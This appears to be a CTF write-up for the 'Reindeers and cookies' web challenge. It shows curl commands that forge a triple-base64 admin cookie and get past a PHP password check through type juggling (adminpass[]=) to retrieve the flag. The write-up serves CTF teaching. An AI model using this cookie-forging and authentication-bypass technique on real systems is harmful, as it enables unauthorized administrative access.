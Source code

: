 # Reindeers and cookies (Web)

Hi CTF player. If you have any questions about the writeup or challenge. Submit a issue and I will try to help you understand.

Also I might be wrong on some things. Enjoy :)

(P.S Check out my [CTF cheat sheet](https://github.com/flawwan/CTF-Candy))

![alt text](1.png "Chall")

This is the challenge page. Both the title of the challenge and content of the challenge has cookies. Nice!

![alt text](2.png "Chall")

Let's look at the cookies:

```bash
curl --head http://199.247.6.180:12008/
HTTP/1.1 200 OK
Server: nginx
Date: Fri, 21 Dec 2018 14:38:47 GMT
Content-Type: text/html; charset=UTF-8
Connection: keep-alive
X-Powered-By: PHP/7.2.10
Set-Cookie: adminpass=MyLittleCookie%21
Set-Cookie: cookiez=WlhsS2NGcERTVFpKYWtscFRFTktNR1ZZUW14SmFtOXBXak5XYkdNelVXbG1VVDA5
X-XSS-Protection: 1; mode=block
```

We have 2 cookies. `adminpass` and `cookiez`.

The cookiez string looks like base64. Decoding it:
```bash
echo -n "WlhsS2NGcERTVFpKYWtscFRFTktNR1ZZUW14SmFtOXBXak5XYkdNelVXbG1VVDA5" | base64 -d
ZXlKcFpDSTZJaklpTENKMGVYQmxJam9pWjNWbGMzUWlmUT09
```
We get another string that also looks like base64. Decoding it two more times.

```bash
echo -n "WlhsS2NGcERTVFpKYWtscFRFTktNR1ZZUW14SmFtOXBXak5XYkdNelVXbG1VVDA5" | base64 -d | base64 -d | base64 -d
{"id":"2","type":"guest"}
```
Cool we have something that looks like json.

### Privilege escalation

Our goal is to:
* Elevate privileges by changing guest->admin.
* base64 encode the json string 3 times
* Send the modified cookie to the server

```bash
COOKIE=`echo -n '{"id":"1","type":"admin"}' | base64 -w 0 | base64 -w 0| base64 -w 0`

curl --cookie "cookiez=$COOKIE;adminpass=MyLittleCookie%21" http://199.247.6.180:12008/ 2>/dev/null
```

`<h1 asdasd class='wrong'>You got the admin password wrong :c<br></h1</h1>
`

Weird... Hmm maybe the adminpass is wrong. Before we try a wordlist, let's see if we can bypass the authentication check.

In PHP arrays are symbolized as []. We can specify the adminpass to by of type array with [].

```
#!/bin/bash

COOKIE=`echo -n '{"id":"1","type":"admin"}' | base64 -w 0 | base64 -w 0| base64 -w 0`

curl --cookie "cookiez=$COOKIE;adminpass[]=" http://199.247.6.180:12008/ 2>/dev/null | grep "X-MAS"
```
Which gets us the flag:
```
<h1 Array class='right'>Good job! Here's your flag:<br>X-MAS{S4n74_L0v35__C00kiesss_And_Juggl1ng!}</h1</h1>
```

For those who don't know what type juggling is. Check out this [owasp article](https://www.owasp.org/images/6/6b/PHPMagicTricks-TypeJuggling.pdf)
